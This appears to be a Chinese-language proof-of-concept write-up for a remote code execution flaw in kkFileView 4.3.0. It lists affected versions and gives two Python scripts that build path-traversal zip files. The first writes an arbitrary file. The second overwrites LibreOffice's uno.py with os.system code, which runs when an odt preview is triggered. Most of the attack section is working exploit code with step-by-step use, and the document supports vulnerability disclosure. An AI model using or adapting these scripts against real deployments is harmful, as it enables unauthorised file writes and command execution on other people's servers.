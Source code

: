 ## kkFileView-v4.3.0-RCE

## 影响版本
```
v4.3.0~v4.40
v4.2.1~v4.2.0
```


## 环境部署
本地源码启动或者docker部署

![image](../../images/ad4f21c4-0edf-44d9-8ab8-303c42b3e1f3.png)


## 任意文件上传
```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ueeeeee'
        binary2 = b'hacked_by_1ue'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```
制作恶意hack.zip，注意里面必须有一个正常文件，例如test，便于创建hack.zip_缓存文件




![image](../../images/a85df4cd-a9fd-47a4-b02e-cbeb7770bdb0.png)


上传文件并预览

![image](../../images/6c027fca-b554-4920-ad1a-93307a82d1e5.png)


![image](../../images/2f6dec05-7d0b-47a3-8b9f-d1b5bfebaf21.png)

发现成功穿越

## RCE
可以任意文件上传，并且可以追加文件内容

经过我研究发现，目标在使用odt转pdf时会调用系统的Libreoffice，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容
```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```
制作恶意的zip包 上传并预览

![image](../../images/1d09daaa-c0a7-4d36-8bcc-6087d2033d6b.png)


再随便上传一个odt文件，另其发起libreoffice任务 上传并预览

![image](../../images/35e50906-d5da-41a6-9310-fc40c614b6ab.png)


可以看到命令成功被执行

![image](../../images/7afcb974-479b-47d2-aebd-a214bbcfb6e5.png)


uno.py中也确实被写入了内容

![image](../../images/1c83cb1c-9c37-4a7c-8cd0-8f4e615469fa.png)

## 漏洞来源
- https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC
- https://github.com/kekingcn/kkFileView/issues/553
